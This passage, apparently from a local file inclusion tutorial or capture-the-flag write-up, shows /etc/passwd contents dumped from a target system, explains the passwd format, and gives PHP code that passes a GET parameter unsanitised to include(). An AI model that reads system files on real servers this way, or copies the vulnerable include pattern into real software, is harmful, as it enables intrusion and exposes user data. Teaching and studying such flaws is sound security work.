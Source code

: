 The output looks like this:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

Note: ``` /etc/passwd``` is a file that lists all users on a Unix/Linux system. Each line represents a user and contains several fields separated by colons (```:```). The structure looks like this:

```
username:x:UID:GID:comment:home_directory:shell
```

*This is successful and a list of users is returned.*

*It is worth noting that inputting /etc/passwd might not always work if the inclusion already specifies a working directory. For instance, consider the following code.*

```
if (isset($_GET['file'])) {
    include(__DIR__ . '/' . $_GET['file']);
} else {
    header("Location: http://" . $_SERVER['HTTP_HOST'] . "/index.php?file=home.php");
}
```
